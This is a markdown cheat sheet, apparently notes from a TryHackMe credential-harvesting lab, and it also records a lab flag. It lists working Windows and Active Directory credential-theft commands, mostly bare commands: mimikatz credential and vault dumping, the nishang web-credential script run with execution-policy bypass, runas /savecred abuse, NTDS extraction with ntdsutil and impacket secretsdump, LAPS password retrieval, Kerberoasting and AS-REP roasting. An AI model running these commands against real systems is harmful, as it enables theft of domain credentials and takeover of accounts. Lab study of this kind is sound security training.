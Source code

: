 # Dumping credentials manager
`mimikatz # privilege::debug`
`mimikatz # sekurlsa::credman`
`mimikatz # vault::cred /patch`

# Dump Credential Manager
## Web cred dump
https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1#
`C:\Users\Administrator>vaultcmd /list`
`C:\Users\Administrator>VaultCmd /listproperties:"Web Credentials"`
`powershell -ex bypass`
`Import-Module C:\Tools\Get-WebCredentials.ps1`
`Get-WebCredentials`

## Windows cred dump
`C:\Users\thm>cmdkey /list`*Enumerating for Stored Windows Credentials*
`runas /savecred /user:THM.red\thm-local cmd.exe`*Run CMD.exe As a User with the /savecred argument*
THM{Runa5S4veCr3ds}

# NTDS dump from the domain controller(local adm rights)
`powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"`*Dumping the content of the NTDS file*
*And then take them from the c:\temp and transfer them to your machine*
`python3.9 /opt/impacket/examples/secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local`


# checking LAPS( local account cred)
`dir "C:\Program Files\LAPS\CSE"`
`Find-AdmPwdExtendedRights -Identity *`*Finding Users with AdmPwdExtendedRights Attribute*
`net groups "THMGroupReader"`*Finding Users belong to THMGroupReader Group, find a way to compromise him/her*
`Get-AdmPwdPassword -ComputerName creds-harvestin` *Getting LAPS Password with the Right User*

# Kerberoasting
`python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip MACHINE_IP THM.red/thm
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation`*Enumerating for SPN Accounts*
`python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip MACHINE_IP THM.red/thm -request-user svc-user `*Requesting a TGS Ticket as SPN Account*


# AS-REP Roasting
`python3.9 /opt/impacket/examples/GetNPUsers.py -dc-ip MACHINE_IP thm.red/ -usersfile /tmp/users.txt`*Performing an AS-REP Roasting Attack against Users List*
